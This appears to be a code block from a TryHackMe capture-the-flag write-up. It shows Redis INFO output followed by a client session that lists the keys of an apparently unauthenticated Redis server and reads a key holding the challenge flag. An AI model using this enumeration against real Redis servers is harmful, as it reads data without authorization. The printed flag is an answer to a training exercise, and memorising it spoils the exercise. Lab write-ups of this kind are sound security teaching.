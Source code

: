 ```bash
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:0262d88c3db3a83cf3f96154f4749caa30e81b68
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:2.77
used_cpu_user:1.09
used_cpu_sys_children:0.00
used_cpu_user_children:0.00

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=5,expires=0,avg_ttl=0 => Let us investigate this one

> SELECT 0

OK

> KEYS *

1) "internal flag"
2) "int"
3) "marketlist"
4) "tmp"
5) "authlist"

> type "internal flag"

string

> get "internal flag"

"THM{ff8e518addbbddb74531a724236a8221}"
```
